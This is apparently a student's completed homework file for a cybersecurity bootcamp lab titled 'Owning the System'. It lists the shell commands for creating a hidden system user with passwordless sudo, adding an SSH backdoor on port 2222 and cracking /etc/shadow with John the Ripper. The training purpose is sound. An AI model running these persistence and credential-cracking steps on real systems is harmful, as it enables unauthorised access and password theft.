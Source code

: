 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo useradd --system --no-create-home sysd`

2. Give your secret user a password: 
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 666 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 666 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo usermod -aG sudo sysd`
   -  `nano /etc/sudoers`
   -  Add sysd to file
   -  `sysd ALL=(ALL:ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    `sudo -l`

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `sudo nano /etc/ssh/sshd_config`
    Add line to file
    `Port 2222`

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo -s`
    - `john /etc/shadow`
    - `john -show /etc/shadow`
    - 

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

